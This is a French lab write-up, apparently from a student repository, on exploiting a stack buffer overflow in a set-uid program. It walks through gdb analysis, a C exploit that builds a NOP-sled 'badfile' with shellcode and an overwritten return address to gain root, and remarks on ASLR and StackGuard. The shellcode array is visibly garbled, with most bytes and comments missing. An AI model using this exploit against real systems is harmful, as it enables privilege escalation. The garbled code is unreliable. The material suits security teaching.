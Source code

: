 # demo-buffer-overflow

Le programe stack.c contient une vulnéarbilité exploitable par injection dans le buffer, qui est assez grand 517 octets. Afin de gagner les privilèges root, il sera executé comme set-uid et le buffer contiendra le shellcode necessaire.

Note: Cela à été fait sur une platforme i486 gnu/linux.

# Task I 

-fno-stack-protector va désactiver la stack smashing protection mechanism de gcc, sur le programe stack.

j'ai modifié le badfile pour y inserer 517 caractère "0x90", code hexa de l'instruction NOP, qui s'avèrera très utile. L'execution de stack renvoi un segmentation fault. l'analyse du bug avec gdb retourne: program terminated with signal 11, Segmentation Fault.. l'explication est aussi donnée: address 0x90909090 is unreacheable.

info registers sur la console gdb, retourne que eip l'instruction pointer est a 0x90909090. Le programe a été hacker, et son flux détourné en ecrasant l'addresse de retour de la fonction bof().

L'idée est de mettre le shellcode quelque part en memoire, à la fin du call stack, est d'utilisé l'addresse de retour, qu'il faut bien determiner, pour y pointer sur un des NOP, le programme va glisser le long de tous ces NOP jusqu'à atteindre le shellcode. 

Avec un des privilège root sur le programme stack de type set-uid, notre payload de shellcode nous donnera un accés root sur la machine.

strcopy() étant à l'origine de la plupart des attacks par bof, la tendance des développeurs est de l'éviter. Des overflow peuvent aussi aparaitre dans les boucles mal indexé.

Le programe exploit.c généré est:


char shellcode[]= 
"310"             /* xorl    
"50"                 /* pushl   
"68""//sh"           /* pushl   0x6e69622f            */ 
"893"             /* movl    
"50"                 /* pushl   
"53"                 /* pushl   
"901"             /* movl    
"99"                 /* cdql                           */ 
"00b"             /* movb    0x80                  */ 
; 
 
void main(int argc, char **argv) 
        
        char buffer[517]; 
        FILE *badfile; 
 
        /* Initialize buffer with 0x90 (NOP instruction) */ 
        memset(&buffer, 0x90, 517); 
         
        /* we need to over write the return address by our own one, this will do it. The address was chosen after incrementing (randomly) the str variable address of the bof() function.. */ 
        long addr = 0xbffff353; 
        long *ptr = (long *) (buffer + 24); 
        *ptr = addr; 
         
        /* we put the shellcode at the end of the buffer, so pointing randomly before it would execute it, this technique is called nop-sled, there is plenty of others */ 
        memcpy(&buffer[517-strlen(shellcode)], shellcode, strlen(shellcode)); 
         
        /* Save the contents to the file "badfile" */ 
 	badfile = fopen("./badfile", "w"); 
        fwrite(buffer, 517, 1, badfile); 
        fclose(badfile); 

L'execution de stack retourne alors ce qu'on voit sur la figure . l'userid effective est bien root.

J'ai determiner l'addresse de retour en choisissant au hazard une addresse un peu plus loin que str (info args), qu'on determine avec le debugger. en effet en executant pas à pas le programme, et en visualisant les variables, on récupère &str=0xbffff317.

Avec l'instruction memcpy(&buffer[517-strlen(shellcode)], shellcode, 
strlen(shellcode)); on met le shellcode à la fin du badfile, après tous les nop.

buffer + 24 après quelques essais, en remplissant la mémoire peut à peu de façon dichotomique, et en réservant 4 octets à l'adresse.

on retrouve l'addresse de retour de call bof dans la sortie du programe objdump -d: 8048494, visualisé le stack nous permet de retrouver cette addresse, [figure].. on essaye de l'ecraser avec le badfile, en donnant une addresse plus utile...

On examine la mémoire et on trouve bien notre addresse de retour..

On utilise la commande d'exploration pour voir le contenue du stack.. tout y est, même l'addresse du shell, qu'il suffira de copier après dans l'exploit pour rediriger le programme vers elle.

# Task II 

Yes we still got a shell as a root user.. c'est pas normal, bash possède un mechnisme de sécurité, qui lâche les privilèges setuid, quand ils sont possédé par un root. En effet il fallait recompilé exploit :)

On obtient un shell non root.
    
Using /bin/sh as bourne again shell    

Pour obtenir un shell root, dans ce cas, on pourait modifier le shellcode; on y inserant l'equivalent en optcode de l'instruction setuid(0). On peut utilisé metasploit pour générer ce code.

# Task III 

La randomisation de l'addresse tend à rendre la tâche du hackeur plus difficile, mais pas impossible. Elle applique des algorithmes qui range de façon aléatoires, dans la mémoire, les données clef d'un programme, notemment le call stack.. Ce qui augmente l'espace memoire sur lequelle l'attaquant aura à deviner.

On effet en modifiant le programe pour qu'il affiche l'addresse du buffer à chaque execution on obtient des résultats tous à fait aléatoire.

Randamized memory allocation
    
Faire tourner une ou plusieurs fois ne m'a pas servit à grand chose..

# Task IV 

J'ai eu un segmentation fault..

definition interessante: "StackGuard is a simple compiler technique that
virtually eliminates buffer overflow vulnerabilities with only modest
performance penalties." 

Ce que ça fait c'est qu'elle place lors de l'execution, un mot dans chauque instruction de retour, choisi au hazard à l'execution à partir du fichier /dev/urandom s'il existe.. ou avec un hash sur le timestamp..
ceci va arreter l'execution si la valeur de retour d'une fonction à été ecraser. Cela rend plus difficile l'attack, plusieurs solutions néamoins existe, notemment essayeé d'ecraser d'autres pointeurs que l'adresse de retour..
